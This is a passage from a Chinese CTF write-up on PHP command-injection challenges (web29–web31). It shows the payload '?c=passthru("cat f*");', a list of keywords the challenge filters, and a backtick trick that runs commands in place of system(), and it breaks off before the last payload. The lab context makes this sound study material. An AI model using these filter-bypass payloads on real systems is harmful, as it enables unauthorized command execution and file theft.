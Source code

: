 屏蔽了flag、system、php

根据web29讲的，进行更改指令

```
?c=passthru("cat f*");
```

![image-20231216114229789](照片/image-20231216114229789.png)

得到flag

------



#### web31

分析

![image-20231216114253908](照片/image-20231216114253908.png)

这次过滤的有些多，过滤了以下字节

```
flag、system、php、cat、sort、shell、\.、空格、\'
```

这次我们试一下新命令

```
?参数=echo(`指令`);
system可以用 ` 反引号来代替去执行命令
所以也可以用
?参数=echo`指令`;
```

那这题我们就可以写成
